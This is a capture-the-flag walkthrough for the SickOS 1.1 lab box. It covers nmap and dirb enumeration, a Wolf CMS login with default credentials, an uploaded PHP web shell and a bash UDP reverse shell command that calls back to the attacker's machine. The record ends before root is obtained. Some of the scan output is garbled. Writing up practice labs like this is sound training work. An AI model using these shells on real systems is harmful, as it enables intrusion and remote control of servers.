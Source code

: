 # SickOS 1.1 Walkthrough (Getting root)
-----------------------------------------
- OS (Box): Ubuntu (SickOS 1.1 - https://www.vulnhub.com/entry/sickos-11,132/)
- Objective: Obtain root user, and find flag in /root/ directory (without using any walkthroughs).
-----------------------------------------

# 1. Nmap
- **We could not find the IP address for the box using ‘nmap -sn’ or ‘-Pn’ scan. But using sudo it is possible to scan for the box.**
  ```
  (kali@kali)-[~] $ nmap -sn 192.168.56.0/24 
  Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-19 15:14 ESTIU 
  Nmap scan report for (192.168.56.1) Host is up (0.00024s latency). 
  Nmap scan report for 192.168.56.3 cm Host is up (0.00013s latency). Nmap done: 256 IP addresses (2 hosts up) scanned in 2.97 seconds
  ```
  > 192.168.56.11 is identified as SickOS. (.1 is the host machine, .2 is the VirtualBox router (https://router-network.com/ip/192-168-56-2), and .3 is Kali.)

- **Using ‘nmap -sV’ we can see the running services. Squid proxy on Port 3128 seems promising, so let's look into that.**

  ```
  (kali@kali) - [~] $ sudo nmap -sV 192.168.56.11 
  Starting Nmap 7.91 ( https://nmap.org) at 2022-02-19 15:51 EST 
  Nmap scan report for 192.168.56.11 Host is up (0.00031s latency) 
  Not shown: 997 filtered ports PORT STATE SERVICE VERSION 
  22/tcp open ssh OpenSSH 5.9p1 Debian Subuntul.1 (Ubuntu Linux; protocol 2.0) 
  3128/tcp open http proxy Squid http proxy 3.1.19 
  8080/tcp closed http-proxy MAC Address: 08:00:27:AB:F1:24 (Oracle VirtualBox virtual NIC) Service Info: 05: Linux; CPE: cpe:/o:linux:linux kernel
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 15.92 seconds
  ```
-----------------------------------------
# 2. Proxy
- FoxyProxy is a Firefox extension which automatically switches an internet connection across one or more proxy servers based on URL patterns; put simply, FoxyProxy automates the manual process of editing Firefox's Connection Settings dialog.
Let’s use the extension to connect to the Squid http proxy by entering in the box’s IP address and Port 3128. We are able to connect to the proxy server without any type of authentication. Then we’re able to access the running web service, which is just a blank page with text.


  ![img](https://i.ibb.co/xMzxv0t/Screenshot-2.png)

  ![img](https://i.ibb.co/dM4qF3n/Screenshot-1.png)

-----------------------------------------

# 3. Dirb
- The tool ‘dirb’ (with -p specified) lists a few 200 codes for you to explore. The page robots.txt shows a disallow on /wolfcms/ therefore let’s look further into the box’s CMS. 

  ![img](https://i.ibb.co/jv1s4hd/Screenshot-1.png)

- Browsing online through Wolf CMS’s documentation, I noticed a config.php file that Wolf CMS creates during installation. So let’s dirb the /wolfcms directory to see if it’s there. And there it is.
(Wolf CMS Documentation: https://wolf-cms.readthedocs.io/en/latest/getting-started/installation/)

  ![img](https://i.ibb.co/pWqgzGN/Screenshot-3.png)
  > http://192.168.56.11/wolfcms/config (CODE:200|SIZE:403)
-----------------------------------------

# 4. Wolf CMS Login
- Regarding from the Wolf CMS’s documentation, we find ‘wolfcms/?/admin/login’ which is the admin login panel. Using the default credentials admin:admin, we can access the CMS as admin. Click around a bit (to understand how the CMS works) and you will find a page that allows file uploading.


  ![img](https://i.ibb.co/BT31Mx2/Screenshot-1.png)
-----------------------------------------

# 5. Wolf CMS File Upload and Permissions
- Let’s upload a php file randomly named yaya.php that will allow shell commands to be sent via a GET request. We can use this php script

  ```php
  <?php if (isset($_GET['cmd'])) { print(shell_exec($_GET['cmd'])); }
  ```
- In this PHP script, we set a function which checks if a variable is specified and not ‘NULL’ in a HTTP GET request. Then the ‘shell_exec’ function will execute commands via a shell, after a variable is specified (cmd); commands are positioned after cmd=. The php script executes and displays the results on the web page.

  ![img](https://i.ibb.co/BV2MZ3b/Screenshot-2.png)
  > This would execute commands on the server's backend that allow us to run commands on the box. For example, you can try cmd=pwd and it will return the current file path. (Note: We are still connected through the proxy.) ![img](https://i.ibb.co/7V9DLTg/Screenshot-1.png)

- However, you will soon find out that the current user does not have admin/sudo privileges. 
- Back under the Files tab, it seems we can change file permissions!

  ![img](https://i.ibb.co/ThmPYTz/Screenshot-3.png)
-----------------------------------------

# 6. Creating a Reverse Shell

- Using a shell will allow us to navigate more efficiently. So we can upload a file named test.sh with this script in the body:

  ```bash
  sh -i >& /dev/udp/192.168.56.3/1337 0>&1
  ```
  
  > This Bash UDP Reverse shell payload can be found on https://github.com/swisskyrepo/PayloadsAllTheThings

- We will edit our reverse shell payload by editing the IP Address to ours along with the specified port and change our malicious file permissions to 0777.

  ![img](https://i.ibb.co/jvJqYBH/Screenshot-1.png)
